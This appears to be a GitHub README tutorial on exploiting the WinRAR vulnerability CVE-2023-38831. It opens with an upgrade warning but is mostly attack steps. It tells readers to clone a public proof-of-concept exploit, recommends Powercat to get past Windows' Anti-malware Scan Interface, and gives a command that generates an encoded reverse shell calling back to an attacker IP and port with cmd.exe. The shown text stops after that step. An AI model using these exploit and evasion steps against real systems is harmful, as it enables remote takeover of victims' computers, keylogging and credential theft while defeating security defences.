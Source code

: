 # Being hacked through winrar (CVE-2023-38831)

If you are using WinRAR versions prior to 6.23, which is the case for many users, it has a vulnerability which hackers can potentially exploit to compromise your computer. They could gain remote access or, depending on your privilege level, install keyloggers to monitor and steal sensitive information, including your social media and internet banking passwords. To safeguard your system, it is crucial to take immediate action. Upgrade to WinRAR version 6.24 as soon as possible. In the following demonstration, I will illustrate how this attack can be executed and provide guidance on steps to protect yourself.

## STEPS
### 1. POC Script

Numerous proof-of-concept (POC) scripts are readily available. You can clone this specific one by using the following command:
```
git clone https://github.com/HDCE-inc/CVE-2023-38831.git
```  

### 2. Beating Windows' Anti-malware Scan Interface
Due to Windows' Anti-malware Scan Interface (AMSI) that actively scans for the execution of potentially malicious PowerShell code, we must adopt a more sophisticated approach when crafting our reverse code. Traditional one-liners typically used in Capture The Flag (CTF) challenges may not succeed in this scenario. To circumvent AMSI, it is advisable to employ a tool like Powercat to generate an encrypted payload, which is more likely to deceive AMSI's detection mechanisms. Powercat is the implementation of netcat in powershell. Use the ``` -c ``` option to denote client and ``` -p ``` to designate a port. Use ``` -ge ``` to generate encoded payload. We will use powershell ``` -E ``` option to execute it. Finally we redirect the payload to a file ``` shell.txt ``` with linux ``` > ``` operator.

On your Kali box, run the command:
```
powercat -c 192.168.8.179 -p 8080 cmd.exe -ge > shell.txt
```
The above command means the reverse shell will connect back to my machine, IP ``` 192.168.8.179 ``` on port ``` 8080 ```.

